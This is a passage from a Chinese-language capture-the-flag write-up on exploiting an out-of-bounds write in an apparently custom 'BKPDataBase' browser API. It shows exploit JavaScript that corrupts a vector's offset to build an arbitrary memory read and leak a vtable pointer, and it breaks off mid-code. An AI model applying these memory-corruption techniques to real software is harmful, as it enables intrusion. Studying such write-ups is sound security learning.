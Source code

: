 intvect的内容，指向QArrayData结构

#### <a class="reference-link" name="%E5%AE%9E%E7%8E%B0%E4%BB%BB%E6%84%8F%E5%9C%B0%E5%9D%80%E8%AF%BB%E5%86%99"></a>实现任意地址读写

任意地址写的思路很简单，通过控制对象C_Vector的offset大小，实现任意地址读写。修改offset的方法，只需通过BVector的越界读写修改C的offset即可

使用read读取vtable的内容

```
&lt;div id="out"&gt;&lt;/div&gt;
&lt;script type="text/javascript"&gt;
    function print(str)
    `{`
        document.getElementById("out").innerHTML+=str+"&lt;br&gt;";
    `}`
    function exploit()`{`
//任意地址读
        function read(addr)
        `{`
            offset=addr-C_vec; //计算读取地址和Cvector数组的距离
            B.insert(B2C_index-1,offset); //修改offset为距离
            info=C.get(0); //读取
            if(C.get(0)==key2)    //检测offset是否成功修改    
                return false;
B.insert(B2C_index-1,0);
            return info;
        `}`
        for (var i = 1000; i &gt;= 0; i--) `{`
                var db=BKPDataBase.create("dbname","passwd");
                var key1=Math.floor(Math.random()*1e12); //随机生成
                var key2=Math.floor(Math.random()*1e12); 
                var B=db.createStore("B",1,[0,1,2,3,4,5,6,7,8,9],0xabc);
                var C=db.createStore("C",1,[key2,0xbbbb,0xdeadbeef],key1);
                B.remove(-1);
                B.insert(0,0xffff000000001);

                var B2C_index=-1; //B-&gt;QArrayData数组 到 C -&gt;QArrayData 的距离
                var C_vec=-1;//C-&gt;QArrayData
                var vtable;
                var x="";
                //获取 C_vec地址
                for(var i=0;i&lt;2000 ;i++)
                `{`
                    if(B.get(i)==key1&amp;&amp;B.get(i-1)==B.get(i-3)&amp;&amp;C_vec==-1)`{`
                        C_vec=B.get(i-2);
                        vtable=B.get(i-6);
                        //alert(vtable.toString(16));
                    `}`    
                `}`
                for(var i=0;i&lt;2000 ;i++)
                `{`
                    if(B.get(i)==key2&amp;&amp;B.get(i+1)==0xbbbb&amp;&amp;B.get(i+2)==0xdeadbeef&amp;&amp;B2C_index==-1)`{`
                        B2C_index=i;
                    `}`    
                `}`
                if(B2C_index!=-1&amp;&amp;C_vec!=-1)
                `{`
                    x=("C_vec="+C_vec.toString(16)+"&lt;br&gt;");
                    x+=("B2C_index="+B2C_index.toString(16)+"&lt;br&gt;");
                    if(read(vtable)==false)
                        continue;
                    x+="info="+read(vtable).toString(16); //读取vtable的值
```